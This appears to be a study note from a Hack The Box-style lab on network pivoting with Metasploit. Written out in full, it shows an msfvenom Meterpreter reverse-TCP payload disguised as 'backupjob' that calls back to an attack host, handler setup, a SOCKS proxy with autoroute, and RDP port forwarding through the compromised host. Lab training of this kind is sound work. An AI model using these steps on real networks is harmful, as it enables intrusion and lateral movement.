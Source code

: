 # Attack Host
## Windows Host is on the 172.16.5.0/23
1. Create a Meterpreter shell for the Ubuntu server with the below command, which will return a shell on our attack host on port 8080.
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```
2. Transfer the payload using `scp` to Ubuntu Pivot Host
3. Start a multi/handler, also known as a Generic Payload Handler.
```
use exploit/multi/handler
```
```
set lport 8080
```
```
set payload linux/x64/meterpreter/reverse_tcp
```
```
run
```
4. Execute `backupjob` on Ubuntu Pivot Host
5. Meterpreter session opened
6. Perform a ping sweep using the meterpreter session
```
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

There could be scenarios when a host's firewall blocks ping (ICMP), and the ping won't get us successful replies. In these cases, we can perform a TCP scan on the 172.16.5.0/23 network with Nmap. Instead of using SSH for port forwarding, we can also use Metasploit's post-exploitation routing module socks_proxy to configure a local proxy on our attack host. We will configure the SOCKS proxy for SOCKS version 4a. This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.
## Configuring MSF's SOCKS Proxy
```
use auxiliary/server/socks_proxy
```
```
set SRVPORT 9050
```
```
set SRVHOST 0.0.0.0
```
```
set version 4a
```
```
run
```
After initiating the SOCKS server, we will configure proxychains to route traffic generated by other tools like Nmap through our pivot on the compromised Ubuntu host.
```
socks4 127.0.0.1 9050
```
Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. We can use the post/multi/manage/autoroute module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.
```
use post/multi/manage/autoroute
```
```
set session 1
```
```
set SUBNET 172.16.5.0
```
```
run
```
It is also possible to add routes with autoroute by running autoroute from the Meterpreter session
```
run autoroute -s 172.16.5.0/23
```
### Testing Proxy & Routing Functionality
```
w1j0y@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```
## Port Forwarding
After establishing a meterpreter session
```
portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
The above command requests the Meterpreter session to start a listener on our attack host's local port (-l) 3300 and forward all the packets to the remote (-r) Windows server 172.16.5.19 on 3389 port (-p) via our Meterpreter session. Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.
Connecting to Windows Target through localhost
